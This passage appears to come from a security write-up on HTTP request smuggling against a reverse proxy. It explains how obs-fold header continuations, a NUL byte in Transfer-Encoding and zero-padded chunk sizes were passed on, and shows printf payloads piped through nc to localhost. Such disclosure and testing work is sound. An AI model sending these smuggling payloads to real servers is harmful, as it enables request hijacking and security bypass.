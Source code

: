 {% highlight bash %}
# chunk mode applied, and '\r\n zorg\r\n' ops-fold transmitted
printf 'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Transfer-\0Mode: magic\r\n'\
'Encoding: chunked\r\n'\
' zorg\r\n'\
'Content-length: 57\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
'GET /tmp/ HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'GET /tests HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080
{% endhighlight %}

### 5) Transmission issues

This strange ops-fold syntax transmitted could be a problem. This was removed in version 2.8.
Usually the Reverse proxy which support ops-fold are not transmitting the syntax (everything back on one line).

They were other transmission issues like this one (sadly not fixed):

{% highlight bash %}
printf 'GET / HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Transfer-Encoding: chunked\r\n'\
'Dummy:Header\r\n'\
'\r\n'\
'0000000000000000000000000000042\r\n'\
'\r\n'\
'GET /tmp/ HTTP/1.1\r\n'\
'Host:localhost\r\n'\
'Transfer-Encoding: chunked\r\n'\
'\r\n'\
'0\r\n'\
'\r\n'\
| nc -q3 127.0.0.1 8080
{% endhighlight %}

This is not an invalid query. The first chunk size is `42` in hexa, so 66 bytes.
The second chunk is the end-of-chunks marker, the last 2 lines `0\r\n\r\n`.
The `GET /tmp/` query does not exists, it's just some uninterpreted bytes in the first chunk body of 66 bytes.
